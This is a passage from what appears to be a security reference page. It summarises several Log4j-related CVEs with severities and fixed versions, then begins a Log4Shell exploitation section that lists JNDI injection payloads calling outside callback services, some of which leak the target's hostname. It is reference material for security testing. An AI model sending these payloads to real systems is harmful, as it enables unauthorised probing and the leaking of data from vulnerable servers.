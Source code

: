 ### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Critical]**

Initially rated low but later upgraded to critical, this CVE is a **Denial of Service (DoS)** flaw resulting from an incomplete fix in 2.15.0 for CVE-2021-44228. It affects non-default configurations, allowing attackers to cause DoS attacks through crafted payloads. A [tweet](https://twitter.com/marcioalm/status/1471740771581652995) showcases a bypass method. The issue is resolved in versions 2.16.0 and 2.12.2 by removing message lookup patterns and disabling JNDI by default.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[High]**

Affecting **Log4j 1.x versions** in non-default configurations using `JMSAppender`, this CVE is an untrusted deserialization flaw. No fix is available for the 1.x branch, which is end-of-life, and upgrading to `log4j-core 2.17.0` is recommended.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Moderate]**

This vulnerability affects the **Logback logging framework**, a successor to Log4j 1.x. Previously thought to be safe, the framework was found vulnerable, and newer versions (1.3.0-alpha11 and 1.2.9) have been released to address the issue.

### **CVE-2021-45105** **\[High]**

Log4j 2.16.0 contains a DoS flaw, prompting the release of `log4j 2.17.0` to fix the CVE. Further details are in BleepingComputer's [report](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Affecting log4j version 2.17, this CVE requires the attacker to control the configuration file of log4j. It involves potential arbitrary code execution via a configured JDBCAppender. More details are available in the [Checkmarx blog post](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).

## Log4Shell Exploitation

### Discovery

This vulnerability is very easy to discover if unprotected because it will send at least a **DNS request** to the address you indicate in your payload. Therefore, payloads like:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (using [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (using [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (using Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (using [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` using (using [huntress](https://log4shell.huntress.com))
